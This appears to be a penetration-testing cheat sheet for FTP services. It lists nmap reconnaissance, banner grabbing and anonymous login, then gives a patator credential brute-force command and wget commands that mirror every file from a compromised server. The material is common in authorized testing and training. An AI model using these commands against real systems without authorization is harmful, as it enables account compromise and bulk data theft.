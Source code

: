 # FTP - Methodology

### RECON

###### Scan Nmap
```bash
nmap -A -p <PORT> <IP>
```

###### Banner grabing
```bash
ftp <IP>
```

###### Anonymous logging
The server may allow anonymous connections with the *anonymous* or *ftp*
accounts.
No password is required with those accounts.

### EXPLOITATION

###### Bruteforce

```bash
patator ftp_login host=<IP> user=FILE0 password=FILE1 0=<wordlist_user> 1=<wordlist_password> -x ignore:mesg='Login incorrect.' -x ignore:mesg='User cannot log in.' -x ignore,reset,retry:code=500
```

### POST EXPLOITATION
Print file from FTP session:
```bash
get <FILE> -
```

Download every files from the FTP server:
```bash
wget --mirror ftp://<USER>:<PASSWORD>@<IP>:<PORT>
```
